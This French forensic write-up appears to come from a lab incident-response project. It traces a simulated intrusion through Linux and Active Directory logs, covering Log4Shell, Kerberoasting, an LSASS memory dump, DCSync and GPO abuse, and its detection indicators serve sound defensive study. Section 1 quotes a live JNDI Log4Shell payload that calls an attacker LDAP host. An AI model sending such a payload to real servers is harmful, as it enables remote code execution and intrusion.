





# 03 - Télémétrie système et investigation numérique (deep dive forensics)

L'analyse de la télémétrie réseau et EDR (`02-network-intrusion-detection.md`) a fourni une vision macroscopique de l'attaque. Cependant, les techniques d'évasion employées (chiffrement WinRM, exécution en mémoire) créent des angles morts pour ces sondes globales.

Dans la continuité méthodologique du document précédent, ce fichier propose une investigation technique ciblée des journaux locaux (Endpoints et Active Directory). Sans viser l'exhaustivité, l'objectif est d'isoler les artéfacts confirmant les actions invisibles sur le réseau, en suivant fidèlement la chronologie de l'intrusion.

---

## 1. Deep dive : accès initial et sabotage (DMZ Linux)

**Contexte :** L'EDR Elastic a détecté avec succès le Reverse Shell initial (anomalie de filiation de processus `java` -> `bash`). L'absence de traces dans un historique de commandes (`.bash_history`) s'explique par la nature même du compte compromis : `ecorp-web` est un compte de service applicatif, logiquement dépourvu de répertoire personnel (`/home/`) et d'environnement interactif configuré. Pour reconstituer le cheminement de l'attaquant, l'investigation s'est déportée sur les journaux applicatifs, les démons système et les métadonnées de fichiers (horodatage MACB).

**Analyse :**

L'interrogation combinée des journaux du service `ecorp-portal` (`journalctl`) et des métadonnées du fichier exécutable (`stat`) révèle une chronologie d'attaque implacable :

1. **Vecteur d'exploitation (21:28:34) :** Le contrôleur de l'application web journalise une exception `ClassCastException` accompagnée de la charge utile JNDI malveillante transmise par l'attaquant : `Login attempt: ${jndi:ldap://192.168.1.150:1389/a}`. Cela confirme l'exploitation technique de Log4Shell (CVE-2021-44228) et identifie l'adresse IP de l'infrastructure offensive.
2. **Trojanisation et sabotage (21:38:02 - 21:38:49) :** L'analyse des métadonnées du livrable de production (`stat /opt/ecorp-portal/ecorp-portal.jar`) indique que le binaire a été corrompu à 21:38:02 (horodatage `Modify`). Exactement 47 secondes plus tard (21:38:49), le journal système enregistre un arrêt brutal du processus applicatif via un signal `SIGKILL` (`status=9/KILL`). Cette séquence prouve de manière irréfutable que l'attaquant a écrasé l'application légitime avec une version trojanisée (backdoor), puis a forcé son redémarrage immédiat pour la charger en mémoire.

---

## 2. Deep dive : pivot et dégradation cryptographique (Active Directory)

**Contexte :** Après avoir établi un tunnel depuis la DMZ, l'attaquant a ciblé l'Active Directory (Phase 3). L'analyse réseau a repéré des flux, mais seul le journal de sécurité du Contrôleur de Domaine (`LAN-WIN-DC01`) permet de qualifier précisément l'attaque sur le protocole d'authentification.

**Analyse :**

À **21:49:19**, l'interrogation de l'API Windows isole un événement 4769 ("Un ticket de service Kerberos a été demandé"). 
Le journal confirme que le compte compromis `e.alderson` a demandé un ticket TGS pour le compte de service `svc_deploy`. L'adresse source (`::ffff:10.0.10.10`) prouve que la requête a été tunnelisée via la machine Linux compromise. 
La preuve irréfutable de l'attaque Kerberoasting réside dans le champ `Ticket Encryption Type` défini sur **`0x17`**. L'attaquant a explicitement forcé le DC à rétrograder la cryptographie (Downgrade Attack) vers l'algorithme obsolète RC4-HMAC, écartant le standard robuste AES-256 (`0x12`), afin de pouvoir casser le mot de passe hors-ligne.

---

## 3. Deep dive : contournement Sysmon et exécution fileless (Windows Endpoint)

**Contexte :** L'attaquant, désormais muni d'un compte administrateur (`t.wellick`), a ciblé le serveur de management `LAN-WIN-MGMT01` (Phase 4). Pour voler les identifiants en mémoire sans déclencher l'antivirus ni écrire sur le disque, un script PowerShell "Fileless" a été utilisé. 

L'attaquant a utilisé du code C# compilé à la volée (P/Invoke) appelant l'API native `MiniDumpWriteDump` avec des droits d'accès spécifiques (`Option.WithFullMemory`). Cette technique a réussi à contourner l'antivirus Windows Defender, mais la stratégie de "Défense en Profondeur" mise en place via GPO a permis de capturer l'attaque.

**Analyse :**

Grâce à l'activation du *PowerShell Script Block Logging* (Event 4104), le système a intercepté et enregistré le code source malveillant complet à **21:56:03**, à l'instant exact de son injection dynamique en mémoire. Cette télémétrie pallie la furtivité de l'exécution mémoire et offre au SOC le script exact utilisé pour corrompre le processus `lsass.exe`.

---

## 4. Deep dive : compromission totale de l'annuaire (Active Directory)

**Contexte :** Armé des droits d'administrateur du domaine volés en mémoire, l'attaquant a procédé à l'extraction de l'intégralité des secrets de l'Active Directory (Phase 5).

**Analyse :**

À **21:57:42**, le journal d'audit de l'Active Directory enregistre un événement 4662 ("Une opération a été effectuée sur un objet"). Cet événement journalise l'attaque DCSync.
Le compte `t.wellick` a sollicité des privilèges de contrôle d'accès sur l'objet racine du domaine. L'empreinte digitale technique de cette attaque est visible dans les propriétés du log via le GUID **`{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}`**. Ce code spécifique correspond au droit étendu *DS-Replication-Get-Changes-All*, démontrant de manière absolue que l'attaquant a simulé un contrôleur de domaine légitime pour forcer la synchronisation et le vol des condensats NTLM (notamment le compte `krbtgt`).

---

## 5. Deep dive : télémétrie de l'impact : déploiement via GPO (Active Directory)

**Contexte :** L'objectif final de l'attaquant (Phase 5) n'était pas seulement de compromettre le domaine, mais de militariser l'infrastructure pour distribuer une charge virale (simulation de ransomware) sur l'ensemble du parc de l'entreprise.

**Analyse :**

L'audit des modifications de l'annuaire (Directory Service Changes) a généré un événement 5136 à **22:29:24**. Ce journal confirme que le compte `Administrator`, préalablement compromis, a altéré un objet critique de classe `groupPolicyContainer`. 
L'attribut spécifiquement visé, `gPCMachineExtensionNames`, indique l'ajout d'une nouvelle extension côté client (généralement utilisée pour pousser des scripts de démarrage ou des tâches planifiées invisibles pour l'utilisateur). La capture de cet événement démontre la capacité du SOC à repérer l'instant précis où l'Active Directory est militarisé pour propager des actions malveillantes à l'échelle du parc.

---

## Conclusion et transition

Cette investigation valide l'hypothèse selon laquelle les sondes globales (SIEM/NIDS) doivent impérativement être soutenues par une journalisation locale robuste (Sysmon, GPO d'audit avancé, journaux applicatifs). La télémétrie Endpoint prouve que les systèmes d'exploitation ont parfaitement enregistré les attaques les plus furtives (Kerberoasting, DCSync, exécution mémoire).

Cependant, le fait que ces alertes locales critiques n'aient pas déclenché d'incidents majeurs de manière proactive dans le SIEM central met en évidence un défaut dans la stratégie de Log Forwarding et de création de règles d'alerte. Les actions de durcissement (Hardening) et d'amélioration continue pour pallier ces failles architecturales sont détaillées dans le document final : **[04-remediation-and-hardening.md](./04-remediation-and-hardening.md)**.